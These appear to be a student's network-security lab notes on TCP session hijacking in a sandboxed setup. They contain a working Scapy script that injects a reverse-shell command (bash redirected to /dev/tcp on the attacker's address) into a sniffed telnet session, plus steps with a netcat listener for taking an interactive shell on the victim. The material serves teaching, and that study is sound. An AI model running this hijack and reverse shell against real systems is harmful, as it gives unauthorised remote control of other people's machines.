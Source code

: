 ## Code 
```python
from scapy.all import *

def sniffAndHijack(pkt):
	old_seq = pkt[TCP].seq
	old_ack = pkt[TCP].ack
	ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
	tcp = TCP(sport=pkt[TCP].dport, dport=pkt[TCP].sport, flags="A", seq=old_ack+5, ack=old_seq)
	data = "\r /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1 \r"
	spoofedPkt = ip/tcp/data
	send(spoofedPkt,iface="br-c26fa13374f9",verbose=0)

sniff(iface='br-c26fa13374f9', filter='tcp and src host 10.9.0.5 and src port 23', prn=sniffAndHijack)
```

## Steps to carry out attack
1. run the `netcat` client on the attacker machine using `netcat -lvn 9090`
2. make sure the client machine is connected to the server machine using `telnet`
3. start the `reverseShell.py` code on the attacker's machine
4. try to run some command on the `telnet` connection until the connection hanged
5. The `netcat` client will then gain access to a interactive shell

## Result and observation
### Running the telnet client on the attacker machine
![Pasted image 20231001161635.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001161635.png)
### Connect the client to the victim server
![Pasted image 20231001161736.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001161736.png)
### Start the reverseShell code
![Pasted image 20231001161816.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001161816.png)
### Telnet session hanging
![Pasted image 20231001161601.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001161601.png)
### Gain control to the interactive shell
![Pasted image 20231001161834.png](/img/user/Study/50.020%20Network%20Security/attachments/Pasted%20image%2020231001161834.png)
There will be a connection received on 10.9.0.5 which is the IP of the victim machine
We now have a interactive shell that we can manipulate to access the content in the victim machine